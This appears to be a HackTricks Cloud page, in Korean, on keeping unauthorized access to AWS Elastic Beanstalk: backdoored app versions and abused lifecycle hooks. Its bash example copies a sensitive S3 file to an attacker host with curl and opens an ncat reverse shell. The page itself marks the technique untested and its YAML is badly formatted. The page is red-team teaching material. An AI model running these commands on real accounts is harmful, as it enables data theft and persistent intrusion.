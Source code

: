 # AWS - Elastic Beanstalk Persistence

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Elastic Beanstalk

For more information check:

{% content-ref url="../aws-services/aws-elastic-beanstalk-enum.md" %}
[aws-elastic-beanstalk-enum.md](../aws-services/aws-elastic-beanstalk-enum.md)
{% endcontent-ref %}

### Persistence in Instance

AWS 계정 내에서 지속성을 유지하기 위해, 인스턴스 내부에 **지속성 메커니즘**(cron job, ssh key 등)을 도입할 수 있습니다. 이를 통해 공격자는 인스턴스에 접근하여 메타데이터 서비스에서 IAM 역할 **자격 증명**을 탈취할 수 있습니다.

### Backdoor in Version

공격자는 S3 저장소 내부의 코드를 백도어로 변경하여 항상 백도어와 예상된 코드를 실행하도록 할 수 있습니다.

### New backdoored version

실제 버전의 코드를 변경하는 대신, 공격자는 애플리케이션의 새로운 백도어 버전을 배포할 수 있습니다.

### Abusing Custom Resource Lifecycle Hooks

{% hint style="info" %}
TODO: Test
{% endhint %}

Elastic Beanstalk는 인스턴스 프로비저닝 및 종료 중에 사용자 정의 스크립트를 실행할 수 있는 라이프사이클 훅을 제공합니다. 공격자는 **라이프사이클 훅을 구성하여 주기적으로 데이터를 유출하거나 AWS 계정에 대한 접근을 유지하는 스크립트를 실행**할 수 있습니다.
```bash
bashCopy code# Attacker creates a script that exfiltrates data and maintains access
echo '#!/bin/bash
aws s3 cp s3://sensitive-data-bucket/data.csv /tmp/data.csv
gzip /tmp/data.csv
curl -X POST --data-binary "@/tmp/data.csv.gz" https://attacker.com/exfil
ncat -e /bin/bash --ssl attacker-ip 12345' > stealthy_lifecycle_hook.sh

# Attacker uploads the script to an S3 bucket
aws s3 cp stealthy_lifecycle_hook.sh s3://attacker-bucket/stealthy_lifecycle_hook.sh

# Attacker modifies the Elastic Beanstalk environment configuration to include the custom lifecycle hook
echo 'Resources:
AWSEBAutoScalingGroup:
Metadata:
AWS::ElasticBeanstalk::Ext:
TriggerConfiguration:
triggers:
- name: stealthy-lifecycle-hook
events:
- "autoscaling:EC2_INSTANCE_LAUNCH"
- "autoscaling:EC2_INSTANCE_TERMINATE"
target:
ref: "AWS::ElasticBeanstalk::Environment"
arn:
Fn::GetAtt:
- "AWS::ElasticBeanstalk::Environment"
- "Arn"
stealthyLifecycleHook:
Type: AWS::AutoScaling::LifecycleHook
Properties:
AutoScalingGroupName:
Ref: AWSEBAutoScalingGroup
LifecycleTransition: autoscaling:EC2_INSTANCE_LAUNCHING
NotificationTargetARN:
Ref: stealthy-lifecycle-hook
RoleARN:
Fn::GetAtt:
- AWSEBAutoScalingGroup
- Arn' > stealthy_lifecycle_hook.yaml

# Attacker applies the new environment configuration
aws elasticbeanstalk update-environment --environment-name my-env --option-settings Namespace="aws:elasticbeanstalk:customoption",OptionName="CustomConfigurationTemplate",Value="stealthy_lifecycle_hook.yaml"
```
{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks 지원하기</summary>

* [**구독 플랜**](https://github.com/sponsors/carlospolop)을 확인하세요!
* 💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**telegram 그룹**](https://t.me/peass)에 가입하거나 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)를 팔로우하세요.
* PR을 제출하여 [**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 저장소에 해킹 트릭을 공유하세요.

</details>
{% endhint %}

